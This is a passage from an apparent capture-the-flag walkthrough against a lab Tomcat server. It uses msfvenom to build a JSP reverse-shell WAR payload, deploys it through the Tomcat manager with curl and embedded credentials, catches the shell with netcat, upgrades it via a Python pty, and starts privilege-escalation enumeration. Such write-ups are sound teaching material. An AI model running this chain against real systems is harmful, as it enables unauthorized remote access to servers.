In order to get a reverse-shell we can use `msfvenom` to generate us a malicious war-file that we can upload as previously.

```bash
root@darkness:~# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=443 -f war > rev.war
Payload size: 1091 bytes
Final size of war file: 1091 bytes
```

Now that we have the payload, let us upload the file again.

```bash
root@darkness:~# curl --upload-file rev.war 'http://tomcat:$3cureP4s5w0rd123!@10.10.10.194:8080/manager/text/deploy?path=/chronos-rev&update=true'
OK - Deployed application at context path [/chronos-rev]
```

We can trigger the reverse-shell with another curl command.

```bash
root@darkness:~# curl 10.10.10.194:8080/chronos-rev/
```

With the reverse-shell triggered, we should get a response back to our netcat listener.

```bash
root@darkness:~# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.194] 37534
whoami
tomcat
```

Let us upgrade our shell, so it is much easier to work with.

```bash
which python
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ ^Z
[1]+  Stopped                 nc -lvnp 443
root@darkness:~# stty raw -echo
tomcat@tabby:/var/lib/tomcat9$ export TERM=xterm
```

## Privesc to user

Now that our shell is fully upgraded, let us enumerate the system to find a privilege escalation vector to user.

### Enumeration as tomcat

Looking around the system, we can find a backup archive called `16162020_backup.zip` in  `/var/www/html/files/`.

```bash
tomcat@tabby:/var/www/html/files$ ls
16162020_backup.zip  archive  revoked_certs  statement
```
